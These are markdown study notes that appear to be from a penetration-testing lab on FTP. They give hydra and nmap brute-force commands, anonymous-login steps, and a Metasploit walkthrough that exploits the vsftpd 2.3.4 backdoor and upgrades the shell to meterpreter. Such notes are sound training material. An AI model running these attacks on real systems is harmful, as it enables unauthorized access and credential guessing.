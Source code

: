 # Table of Contents
1. [Overview](#Overview)
	1. Ports
	3. Usage
	4. Related Services
2. [Tools](#Tools)
	1. [hydra](#hydra)
	2. [nmap](#nmap)
	3. [msfconsole](#msfconsole)

---

# #Overview 
FTP - File Transfer Protocol

File sharing protocol used by different services

## #Ports
- 21 : Win/Lin : Main port for access

## Usage
`ftp 192.156.2.3`
- anonymous login
	- user: anonymous
	- pass: null : just hit enter

## Related Services
vsftp
SFTP
ProFTPD

---

# #Tools
## #hydra
[Tool info - hydra](../Tools/Hydra.md)

Dictionary attack with *userlist* and *passlist*
- -t : threads
- -L : user File
- -P : pass File
```bash
hydra -L /usr/share/metasploit-framework/data/wordlist/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 192.168.24.3 -t 4 ftp
```

---

## #nmap
[Tool info - nmap](../Tools/NMAP.md)

Scripts
```bash
nmap 192.168.24.3 --script ftp-brute --script-args userdb=/root/users -p 21
```
- --script
	- ftp-brute
		- `--sript-args userdb=/userlist.txt`

---

## msfconsole

1. `search type:exploit vsftpd`
2. `use exploit/unix/ftp/vsftpd_234_backdoor`
	1. info
	2. run : easy
	3. `/bin/bash -i` : launch bash session
	4. ctrl-z : to background the session
3. `search shell_to_meterpreter` : look for module to upgrade session
4. `use post/multi/manage/shell_to_meterpreter`
	1. `set LHOST eht1` : set to ip of interface eth1
	2. `set session 1` : set it to the session number for the shell connection
	3. `run`
5. `sessions` : to show and then connect by specifying number